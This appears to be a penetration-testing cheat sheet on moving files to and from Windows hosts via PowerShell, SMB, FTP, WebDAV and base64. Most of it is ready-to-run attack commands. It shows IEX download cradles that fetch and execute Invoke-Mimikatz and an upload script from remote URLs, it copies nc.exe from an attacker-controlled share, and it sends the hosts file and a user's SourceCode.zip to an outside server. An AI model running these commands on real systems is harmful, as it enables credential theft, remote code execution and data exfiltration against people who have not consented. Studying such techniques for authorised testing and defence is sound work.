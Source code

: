 ### PowerShell DownloadFile Method

```powershell
## Downloading from HTTP/HTTPS Server
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

## Invoking file directly w/o downloading file
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### PowerShell Invoke-WebRequest

```bash
## PowerShell 3.0 onwards
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### SMB Downloads

```bash
## Create SMB server for download
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
net use n: \\192.168.220.133\share /user:test test

## Copy file from remote SMB established
copy \\192.168.220.133\share\nc.exe
```

### FTP Downloads

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

### PowerShell Web Upload

```powershell
## Create uploading server
pip3 install uploadserver
python3 -m uploadserver

## Normal file upload
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

## Base64 file upload
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

### SMB Uploads

WebDAV extension of HTTP/HTTPS - Enables webserver to behave like a fileserver
```bash
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
## DavWWWRoot is a special keyword recognized by the Windows Shell, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
dir \\192.168.49.128\DavWWWRoot

copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\

copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```


### Base64 Encoding/Decoding

```powershell
## Encoding file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

## Specific text encoding
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Text))
```